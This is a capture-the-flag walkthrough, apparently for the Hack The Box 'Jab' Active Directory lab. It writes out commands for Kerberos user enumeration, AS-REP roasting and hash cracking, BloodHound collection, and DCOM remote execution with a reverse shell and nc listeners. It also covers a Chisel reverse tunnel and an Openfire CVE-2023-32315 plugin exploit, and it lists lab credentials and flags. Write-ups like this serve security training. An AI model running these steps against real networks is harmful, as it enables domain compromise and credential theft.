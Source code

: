 # Jab - Active Directory Exploitation Walkthrough

This walkthrough demonstrates the full exploitation of the **Jab** Active Directory lab environment. The assessment includes user enumeration, AS-REP roasting, SMB enumeration, BloodHound-based lateral movement, and remote code execution through Openfire (CVE-2023-32315) to achieve Domain Admin access.

---

## 🧠 Lab Information

- **IP Address:** 10.10.11.4
- **Domain:** jab.htb
- **Domain Controller:** dc01.jab.htb
- **Services:** Kerberos, SMB, LDAP, XMPP/Openfire

---

## 🔍 Enumeration

### Nmap Scan

```bash
nmap -sC -sV -oA nmap 10.10.11.4

Key Ports:
88, 389, 636, 445 – Kerberos, LDAP, SMB
5222, 5269, 7070, 7443, 7777 – XMPP (Openfire)

Add to /etc/hosts:
10.10.11.4 jab.htb dc01.jab.htb
🔐 Kerberos & XMPP Enumeration
Kerberos User Enumeration
bash
Copy
Edit
kerbrute userenum --dc dc01.jab.htb -d jab.htb usernames.txt -o kerbrute.txt

Thousands of users discovered.

AS-REP Roasting
bash
Copy
Edit
impacket-GetNPUsers jab.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Crack Hash with Hashcat
bash
Copy
Edit
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
Cracked Credential:

jmontgomery : Midnight_121

💬 XMPP Enumeration (Pidgin)
Install and open Pidgin.

Create new XMPP account using cracked credentials.

Join chat rooms to discover additional usernames and messages.

Found credentials:

svc_openfire : !@#$%^&*(1qazxsw)

📁 SMB Enumeration
bash
Copy
Edit
smbmap -u svc_openfire -p '!@#$%^&*(1qazxsw)' -H 10.10.11.4
Limited access, no sensitive data found.

🧠 BloodHound Analysis
Data Collection
bash
Copy
Edit
bloodhound-python -u svc_openfire -p '!@#$%^&*(1qazxsw)' -d jab.htb -dc dc01.jab.htb -c all -ns 10.10.11.4
zip -r bloodhound.zip bloodhound/
BloodHound GUI (Neo4j)
Upload collected data.

Identify attack path using DCOM and Remote Code Execution privileges.

🧨 Remote Code Execution via DCOM
Reverse Shell Payload
Generate a PowerShell reverse shell from revshells.com, then:

bash
Copy
Edit
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw)@dc01.jab.htb' '<PowerShellCommand>'
Start listener:

bash
Copy
Edit
rlwrap nc -nlvp 6658
✅ User Flag: 58b27f9faaec3dfdb2a94dad6a1e2175

🔁 Pivoting with Chisel
Setup Chisel Tunnel
Server (Attacker):

bash
Copy
Edit
chisel server -p 9999 --reverse
Client (Victim):

bash
Copy
Edit
chisel client <YourIP>:9999 R:9090:127.0.0.1:9090
Access Openfire admin: http://127.0.0.1:9090

⚙️ Exploiting Openfire (CVE-2023-32315)
Exploit Setup
bash
Copy
Edit
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
Upload Malicious Plugin
Login to Openfire admin panel.

Use exploit to upload a reverse shell plugin.

Catch Shell
bash
Copy
Edit
rlwrap nc -nlvp 4444
✅ Root Flag: 8f826f76eb871e0566058e6580760e8e

✅ Summary
| Step                 | Technique                     | Result                          |
| -------------------- | ----------------------------- | ------------------------------- |
| User Enumeration     | Kerbrute, AS-REP roasting     | Found jmontgomery credentials   |
| XMPP Enumeration     | Pidgin                        | Found svc\_openfire credentials |
| Lateral Movement     | BloodHound (DCOM)             | Executed shell on DC            |
| Privilege Escalation | Openfire RCE (CVE-2023-32315) | Gained SYSTEM shell             |
| Flags Captured       | User & Root                   | Complete compromise             |

Author: Farhanahmad Quraishi
